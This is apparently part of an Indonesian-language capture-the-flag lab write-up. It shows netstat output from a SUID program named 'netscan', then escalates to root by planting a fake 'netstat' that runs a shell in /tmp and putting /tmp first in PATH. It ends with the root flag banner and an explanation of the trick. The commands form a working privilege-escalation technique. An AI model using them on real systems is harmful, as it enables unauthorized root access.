 #### Netscan
Rupanya program `netscan` hanya berupa "script" dari tools `netstat`.
```
blackjax@nitin:/tmp$ netscan
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:2525            0.0.0.0:*               LISTEN      1098/sshd       
tcp        0      0 0.0.0.0:445             0.0.0.0:*               LISTEN      861/smbd        
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      1041/mysqld     
tcp        0      0 0.0.0.0:139             0.0.0.0:*               LISTEN      861/smbd        
tcp        0    188 192.168.43.97:2525      192.168.43.192:46168    ESTABLISHED 4133/sshd: blackjax
tcp6       0      0 :::2525                 :::*                    LISTEN      1098/sshd       
tcp6       0      0 :::445                  :::*                    LISTEN      861/smbd        
tcp6       0      0 :::139                  :::*                    LISTEN      861/smbd        
tcp6       0      0 :::80                   :::*                    LISTEN      1129/apache2    
```
Maka dari itu dapat diasumsikan bahwa `netscan` hanyalah skrip buatan netadmin agar `netstat` hanya menampilkan koneksi `established`. Logika diatas dapat dimanfaatkan untuk privilege escalation.
#### PrivEsc
1. Pindah ke `/tmp`, karena attribute direktory `/tmp` drwxrwxrwx.
 `cd /tmp`
2. Buat file bernama "netstat" dengan isi "/bin/sh"
 `echo "bin/sh" > netstat`
3. Tambahkan direktori `/tmp` ke environtment variable / `$PATH` dengan urutan paling awal.
 `export PATH=/tmp:$PATH`
 4. Jalankan lagi `netscan`
 
 Setelah `netscan` dijalankan lagi, ternyata kita berhasil mendapat user root dan flag root :smiley:
```
    ____  ____  ____  ______   ________    ___   ______
   / __ \/ __ \/ __ \/_  __/  / ____/ /   /   | / ____/
  / /_/ / / / / / / / / /    / /_  / /   / /| |/ / __  
 / _, _/ /_/ / /_/ / / /    / __/ / /___/ ___ / /_/ /  
/_/ |_|\____/\____/ /_/____/_/   /_____/_/  |_\____/   
                     /_____/                           
Conguratulation..

MD5-HASH : bae11ce4f67af91fa58576c1da2aad4b

Author : Rahul Gehlaut

Contact : https://www.linkedin.com/in/rahulgehlaut/

WebSite : jameshacker.me

```

Bingung kenapa logika tsb bisa jalan? _sama saya juga_  
Ok jadi kunci keberhasilan privescnya adalah perubahan environtment variable / `$PATH`. Kita merubah **`netstat` asli** yang berisi tools untuk menampilkan koneksi aktif menjadi **"`netstat`" palsu** yang berisi command untuk memanggil shell. Umumnya dengan hanya merubah `netstat` asli menjadi `netstat` palsu kita juga tidak akan mendapat user root. Namun, karena kita menjalankan program **`netscan`** yang memiliki flag `SUID`, kita berhasil mendapat akses shell root.
